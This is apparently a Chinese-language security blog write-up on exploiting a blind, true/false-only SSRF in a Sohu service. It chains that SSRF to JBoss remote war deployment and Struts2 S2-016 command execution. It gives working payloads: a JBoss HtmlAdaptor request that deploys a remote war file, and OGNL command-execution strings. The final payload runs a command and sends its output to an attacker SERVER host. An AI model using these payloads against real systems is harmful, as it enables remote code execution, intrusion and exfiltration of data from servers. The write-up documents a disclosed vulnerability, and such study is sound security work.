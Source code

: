 ### Bool型SSRF的思考与实践

	0x00 Bool型SSRF 
	0x01 SSRF利用的基本思路
	0x02 两者之间的区别
	0x03 Bool型SSRF利用方法
	0x04 Struts2在Bool型SSRF中的利用
	0x05 Other(想到什么写什么)

#### 0x00 Bool型SSRF
什么是Bool型SSRF, 没听说过. 其实我也没有听说过. 只是我也不知道该怎么描述就起了这样一个名称.

Bool型SSRF: 简单来说就是仅返回True 或 False的SSRF. 就以我前两天我挖掘的一个搜狐SSRF为例, 只有服务器端正确响应HTTP请求并且只有响应码为200的时候, 返回Success，其余全部返回Failed. 这就是一个典型的Bool型SSRF.

#### 0x01 SSRF利用的基本思路
Wooyun上有很多SSRF典型的案例, 可以说让人拍案惊奇. 但是没有一个关于BOOL型SSRF的利用案例(可能我没看到吧). 这次挖掘到一个搜狐的Bool型SSRF, 对于我这个只是简单理解SSRF原理没有任何实战的渣渣来说, 难度还真大. 不过想想, 以前没有接触过SSRF, 这次就把你玩透. 翻阅学习Wooyun上的案例, 了解SSRF利用的基本思路:

	内网探测 -> 应用识别 -> 攻击Payload -> Payload Result

1. 内网探测: 内网主机信息收集
2. 应用识别: 主机应用识别(可以通过Barner和应用指纹进行识别)
3. 攻击Payload: 根据应用识别的应用,加载不同的攻击Payload(最常用莫属于Struts2)
4. Payload Result: 返回相应Payload的执行信息

#### 0x02 两者之间的区别
BOOL型SSRF与一般的SSRF的区别在步骤二应用识别, 步骤三攻击Payload和步骤四Payload Result. 一般的SSRF在应用识别阶段返回的信息相对较多, 比如Banner信息, HTTP Title信息,更有甚的会将整个HTTP的Reponse完全返回, 而Bool型SSRF的却永远只有True or False. 因为没有任何Response信息, 所以对于攻击Payload的选择也是有很多限制的, 不能选择需要和Response信息交互的Payload. 在此次搜狐SSRF的中, 我分别使用了JBOSS远程调用和Struts2 S2-016远程命令执行. 对于Bool型SSRF, 我们不能说Payload打过去就一定成功执行, 就算是返回True, 也不能保证Payload一定执行成功. 所以我们要验证Payload的执行状态信息.

#### 0x03 Bool型SSRF利用方法
**应用识别**

	{ 指纹1 + 指纹2 + 黑指纹 }

以JBOSS为例: { /jmx-console/ + /invoker/JMXInvokerServlet + /d2z341.d#211 }

指纹1 和 指纹2 为应用识别指纹, 准确率越高越好. 黑指纹其实就是不会匹配任何应用的指纹，一般用较长的字符串代替即可. 分别用指纹1, 指纹2 和 黑指纹对内网主机探测统计, 获取三个主机列表: jmx-console.host(A)    invoker.host(B)    black.host(C). 

Host = (A∩B) –(A∩B∩C) 即剔除jmx-console.host 和 invoker.host中存在于black.host的主机, 然后对jmx-console和invoker.host的主机取交集.

**攻击Payload**

针对不用的应用我们需要加载不同的Payload, 但是大多数的攻击都是需要和Payload Result进行交互的. 这类Payload是没有办法用在此处的, 我们需要的是不需要和Payload Result进行交互的Payload. 我可以想到的两种应用比较广泛的Payload有JBOSS和Struts2漏洞.

JBoss Payload:

`/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system%3Aservice%3DMainDeployer&methodIndex=3&arg0=http%3A%2F%2F192.168.1.2%2Fzecmd.war`

通过JBOSS HtmlAdaptor接口直接部署远程war包, 我们可以通过access.log去验证war包是否成功部署.下面就是通过SSRF去执行不同的命令.还有一种方式,就是我们可以通过我们服务器的access.log日志获取到远程服务器对应的公网IP, 有时也会有一些意外惊喜.

Struts2 Payload:

`/action?action:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}`

Struts2漏洞的影响大家都懂的, 通过URL直接远程命令执行, 想打那里就打那里.

**Payload Result**

获取Payload Result是十分有必要的, 这里的Payload Result和非Bool型SSRF的Result不是一个意思. 对于Bool型SSRF, 服务器端返回的数据永远只有True和False, 我们是可以通过返回的True或者False来判断Payload的执行状态, 但是这样的判断标准是无法让人信服的. 能否有一种方法能够精确的判断Payload的执行状态,而且能够返回Payload Result. 对于Struts2我找到了一种可利用的方法.

#### 0x04 Struts2在Bool型SSRF中的利用
下面是S2-016的POC:

	/action.action:%25{3*4}
	/action.action?redirect:%25{3*4}

通过对连个POC的理解, 我们知道下面的POC中的redirect是实现URL跳转, 通过URL跳转来验证S2-016漏洞.
![Struts2-redirect](./Res/Struts2-redirect.png)

当然也可以通过 "?redirect:http://www.baidu.com" 来验证. 那么我们是否可以通过 "?redirect:http://SERVER/%25{3*4}" 将%25{3*4}的执行结果作为SERVER的URL的一部分发送到远端服务器, 通过实验我们证实了这样的想法.
![Struts2-redirect-to-remote](./Res/Struts2-redirect-to-remote.png)

下面我们尝试S2-016的命令执行POC,执行结果如下:

`?redirect:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}`

![Struts2-exec](./Res/Struts2-exec.png)

特此说明一下, 这里返回java.lang.ProcessImpl@xxxxxx表示命令执行成功, 将命令执行的结果通过redirect跳转输出到远程服务器.

`?redirect:http//SERVER/%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start()}`

![Struts2-remote-exec](./Res/Struts2-remote-exec.png)

由服务器端Access日志可以看出, 命令执行成功

![Struts2-access-log](./Res/Struts2-access-log.png)

其实通过上面的这种方式,我们已经完全能够准确的判断Payload Result的执行状态, 但是这不是我要的, 我想要Payload Result执行结果. 

带回显的POC:

`?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}`

![Struts2-ssrf](./Res/Struts2-ssrf.png)

将命令执行结果Redirect到远程:

![Struts2-ssrf2](./Res/Struts2-ssrf2.png)

我们可以看到本地浏览器可以打印出结果,但是远程Access.log不会有任何日志. 对Java懂一点点的人都知道(比如我,对Java略懂一点点), 这里的POC的作用就是本地打印,所以肯定是不行的. 下一步我们就需要更改POC , 因为对Java不熟, 为此花费了大半天的时间,写下下面的POC:

`?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}`

SERVER是我们的HTTP服务器IP地址, 我们获取命令执行结果,然后把他作为一个URL参数发送到远程SERVER上, 所以我们可以在远程SERVER的access.log看到命令的执行结果.

![Struts2-ssrf3](./Res/Struts2-ssrf3.png)

远程服务器日志:

![Struts2-ssrf4](./Res/Struts2-ssrf4.png)

至此, 我们完成了从一个BOOL型的SSRF转换为一个普通的SSRF,我们可以获取到任何Payload的执行结果, 我只能说这是一个质的飞跃.

说明: 对于文中浏览器中执行的返回信息,我们仅仅是在做测试,对于BOOL型SSRF这些信息对我们是不可见的, 我们能看到的仅仅是Server端的access.log日志.

#### 0x05 Other(想到什么写什么)
Bool型SSRF的其他利用方式-反射性XSS也是一种可利用的思路,不过挖掘的难度相对较大

此文是对搜狐SSRF漏洞利用过程中的一些思考,实践和总结.

这可以说是我的SSRF处女洞, 和此文章关联的漏洞”搜狐某云服务API接口导致SSRF/手工盲打到Struts2命令执行” http://wooyun.org/bugs/wooyun-2015-0129588 , 因为抱着学习的态度, 漏洞报告写的非常详细,而且有很多技巧在文章中没有提及. 当然也有很多YY的想法, 想拍砖的就来拍砖吧.


